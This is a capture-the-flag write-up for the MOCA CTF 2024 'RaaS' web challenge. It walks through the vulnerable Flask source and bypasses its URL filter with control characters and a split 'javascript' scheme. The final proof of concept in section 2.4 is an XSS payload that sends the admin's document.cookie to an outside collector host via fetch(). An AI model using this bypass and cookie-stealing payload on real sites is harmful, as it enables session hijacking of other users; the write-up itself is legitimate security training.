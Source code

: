 ```yaml
---
description: 500 pts
---
```


# RaaS \[WEB]

## RaaS \[WEB] - MOCA CTF 2024 Quals

***

![](assets/MocaCTF\_logo.png)

## TL;DR

* The challenge involved achieving User Interaction XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.

## 0. Description

> A simple click-to-xss to warmup.

***

## 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![](assets/RaaS\_firstlook.png)

Source code is provided, so we'll look into that to understand what's happening.

### 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**

```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

Clicking on the "_Get Redirected!_" button will trigger the `/redirectTo` route, which is anyway triggered also by the "_Redirect the Admin!_" button that executes the `/redirectAdmin` route. The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "_Follow Link_" button.

![](assets/Raas\_redirectTo.png)

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ``r'[()=$`]'`` that will limit us later on exploitation. Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![](assets/Raas\_browserblock.png)

My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

## 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.

### 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it! We will write

```
java
script
```

instead. Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

{% hint style="info" %}
NOTE\
Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.
{% endhint %}

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter. The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

### 2.2) doesn't starts with "j" bypass

This one was tougher. the strip function that was allowing me to bypass the previous check was sending me crazy on this one. Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`). Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:

![](assets/Raas\_NULLbyteinurl.png)

As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol. However, i felt in being in the right path, until the previous blog confirmed my sensations.

![](assets/RaaS\_controlcharsinURL.png)

Control Characters are allowed?? It did, in fact.\
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol! And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control\_character) below would have probably get the job done.

![](assets/Raas\_ASCIIcontrolchars.png)

### 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

{% hint style="info" %}
Fun Fact

[here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??
{% endhint %}

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md). I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.

### 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![](assets/RaaS\_finalpayload.png)

> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

***

#### TAGS: #XSS #flask

